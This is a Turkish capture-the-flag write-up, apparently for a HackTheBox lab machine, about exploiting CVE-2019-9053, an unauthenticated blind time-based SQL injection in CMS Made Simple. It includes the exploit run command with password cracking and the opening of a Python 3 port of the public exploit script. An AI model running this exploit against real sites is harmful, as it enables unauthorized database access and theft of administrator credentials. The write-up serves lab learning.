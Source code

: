 #### Overview

CMS Made Simple'ın 2.2.10'dan önceki sürümleri, kimliği doğrulanmamış bir SQL enjeksiyon saldırısına karşı savunmasızdır. Bu bir blind saldırısıdır, bu nedenle çeşitli alanlardaki bir sonraki karakteri belirlemek için bir sleep deyimi ve response zamanlaması kullanır.

![Pasted image 20250204181339.png](/img/user/resimler/Pasted%20image%2020250204181339.png)

CMS Made Simple 2.2.8 sürümünde bir güvenlik açığı tespit edilmiştir. Bu açık, News modülü üzerinden, özel olarak hazırlanmış bir URL kullanılarak, `m1_idlist` parametresi aracılığıyla kimlik doğrulaması gerektirmeyen (unauthenticated) blind time-based SQL injection gerçekleştirilmesine olanak tanımaktadır.  [Kaynak](https://nvd.nist.gov/vuln/detail/CVE-2019-9053) .

#### Exploit

Packet Storm'da çok güzel bir POC (Proof of Concept) exploit bulunuyor. Zamanlamanın önemli olduğunu unutmamak gerekiyor, bu yüzden eğer sunucu yoğun bir şekilde kullanılıyorsa, bu durum işleri bozabilir. Script, çıktı konusunda bazı güzel numaralar yapmış. Bu GIF, exploitin tamamını gösteriyor (3 kat hızlandırılmış ve kırma adımından önce durdurulmuş, ancak çalışıyor):

![writeup-sqli-fast.gif](/img/user/resimler/writeup-sqli-fast.gif)
`./cmsms_sqli.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt` dosyasını çalıştırdığımda aşağıdaki sonuçları veriyor:

```
python3 46635.py -u http://10.10.10.138/writeup --crack --wordlist /usr/share/wordlists/rockyou.txt
  File "/root/Desktop/46635.py", line 25
    print "[+] Specify an url target"
    ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
SyntaxError: Missing parentheses in call to 'print'. Did you mean print(...)?
```

Script **Python 2** ile yazılmış onun için böyle bir hata alıyoruz .

![Pasted image 20250204182450.png](/img/user/resimler/Pasted%20image%2020250204182450.png)

termcolor modülünü yüklersek başka bir hata alıyoruz . Kodu ChatGPT veya DeepSeek gibi yapay zeka ile python3'e uyumlu çalışacak şekilde tekrardan düzenlettirdim. Github sayfamda veya doğrudan buradan kopyalaya bilirsiniz.

```
#!/usr/bin/env python3
# Exploit Title: Unauthenticated SQL Injection on CMS Made Simple <= 2.2.9
# Date: 30-03-2019
# Exploit Author: Daniele Scanu @ Certimeter Group
# Vendor Homepage: https://www.cmsmadesimple.org/
# Software Link: https://www.cmsmadesimple.org/downloads/cmsms/
# Version: <= 2.2.9
# Tested on: Ubuntu 18.04 LTS
# CVE : CVE-2019-9053

import requests
from termcolor import colored, cprint
import time
import optparse
import hashlib

parser = optparse.OptionParser()
parser.add_option('-u', '--url', action="store", dest="url",
                  help="Base target uri (ex. http://10.10.10.100/cms)")
parser.add_option('-w', '--wordlist', action="store", dest="wordlist",
                  help="Wordlist for crack admin password")
parser.add_option('-c', '--crack', action="store_true", dest="cracking",
                  help="Crack password with wordlist", default=False)

(options, args) = parser.parse_args()
```